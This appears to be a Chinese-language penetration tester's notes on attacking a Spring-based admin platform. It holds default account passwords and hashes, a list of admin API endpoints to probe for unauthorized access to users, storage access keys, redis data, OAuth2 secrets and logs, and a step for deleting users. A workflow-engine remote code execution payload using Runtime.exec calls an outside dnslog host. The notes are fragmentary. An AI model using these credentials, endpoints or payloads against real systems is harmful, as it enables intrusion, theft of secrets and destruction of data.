 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



可能未授权查看
/admin/applications



存储桶，存储位置，aksk
/admin-api/infra/file-config/page
文件列表
/admin-api/infra/file/page?pageNo=1&pageSize=100

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create
/infra/data-source-config
可能前后端分离


redis信息
有redis配置文件位置
/prod-api/admin-api/infra/redis/get-monitor-info


java
/admin-api/infra/config/get-value-by-key?key=url.spring-boot-admi

文档
/v3/api-docs/swagger-config
/v3/api-docs/all



outh2可能有密码
/admin-api/system/oauth2-client/page



初始配置
/admin-api/infra/config/page
字典
/admin-api/system/dict-type/page



日志
/admin-api/infra/api-access-log/page
/admin-api/infra/api-error-log/page

/admin-api/system/operate-log/page
/admin-api/system/login-log/page


操作日志，无用
/admin-api/web-api/system/dict/data/list-all-simple


用户列表(部分)
/admin-api/web-api/selfcom/user/list
/web-api/selfcom/user/list



删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**


